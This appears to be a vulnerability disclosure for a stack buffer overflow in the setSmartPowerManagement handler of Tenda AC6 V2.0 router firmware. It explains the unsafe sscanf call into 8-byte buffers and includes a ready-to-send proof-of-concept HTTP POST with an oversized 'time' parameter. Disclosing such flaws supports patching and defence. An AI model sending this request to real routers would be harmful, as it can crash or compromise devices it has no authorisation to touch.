# Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "setSmartPowerManagement"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `setSmartPowerManagement` function, a user can craft a POST request to provide the **`time` parameter**. This `time` parameter is then processed by `sscanf(time, "%[^:]:%[^-]-%[^:]:%s", hour_start, min_start, hour_end, min_end);`, which writes the extracted data directly to the stack-allocated variables `hour_start`, `min_start`, `hour_end`, and `min_end`. Since each of these variables has a small size of **8 bytes**, it's very easy to trigger a **stack overflow**.

![image-20250619024343211](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619024343211.png)

poc

```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.1.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: password=xzbtgb
Connection: close
Content-Length: 493

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250619024753760](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619024753760.png)